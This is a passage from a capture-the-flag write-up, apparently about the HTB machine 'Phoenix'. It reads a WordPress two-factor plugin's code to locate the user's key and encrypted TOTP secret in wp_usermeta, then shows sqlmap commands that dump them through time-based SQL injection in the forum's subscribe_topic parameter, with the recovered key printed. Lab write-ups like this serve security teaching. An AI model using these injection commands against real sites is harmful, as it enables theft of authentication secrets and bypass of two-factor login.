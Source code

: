 

The two calls at the end, `mo_GAuth_get_secret` and `verifyCode` are
what I'm looking for.

`mo_GAuth_get_secret` makes two calls to `get_user_meta` to get a key
and an emcrypted secret, and then calls `decrypt_data` to decrpyt them.



    function mo_GAuth_get_secret($user_id){
        global $Mo2fdbQueries;
        $key=get_user_meta( $user_id, 'mo2f_get_auth_rnd_string', true);
        $secret=get_user_meta( $user_id, 'mo2f_gauth_key', true);
        $secret=mo2f_GAuth_AESEncryption::decrypt_data($secret,$key);

        return $secret;
    }



I'll show it in WordPress Source the [video
above](https://www.youtube.com/watch?v=gwlSlgORtnI), but `get_user_meta`
is a [WordPress
function](https://developer.wordpress.org/reference/functions/get_user_meta/)
for getting data from the `wp_usermeta` table.

#### Read Secret / Key

[This](https://codex.wordpress.org/Database_Description#Table:_wp_usermeta)
describes the `wp_usermeta` table:

![](/img/image-20220216111212029.png)

I'll update my `sqlmap` to dump these for the phoenix user. For example,
to get the key, I'll use
`-T wp_usermeta -C meta_value --where "user_id=1 and meta_key = 'mo2f_get_auth_rnd_string'"`:



    oxdf@hacky$ sqlmap --url "https://phoenix.htb/forum/?subscribe_topic=*" --dbms=mysql --technique=T --level 5 -D wordpress -T wp_usermeta -C meta_value --where "user_id=1 and meta_key = 'mo2f_get_auth_rnd_string'" --dump
    ...[snip]...
    Database: wordpress                                 
    Table: wp_usermeta                                  
    [1 entry]                                           
    +------------+                                      
    | meta_value |
    +------------+
    | kHHxxX3f   |
    +------------+
    ...[snip]...
    oxdf@hacky$ sqlmap --url "https://phoenix.htb/forum/?subscribe_topic=*" --dbms=mysql --technique=T --level 5 -D wordpress -T wp_usermeta -C meta_value --where "user_id=1 and meta_key = 'mo2f_gauth_key'" --dump 
    ...[snip]...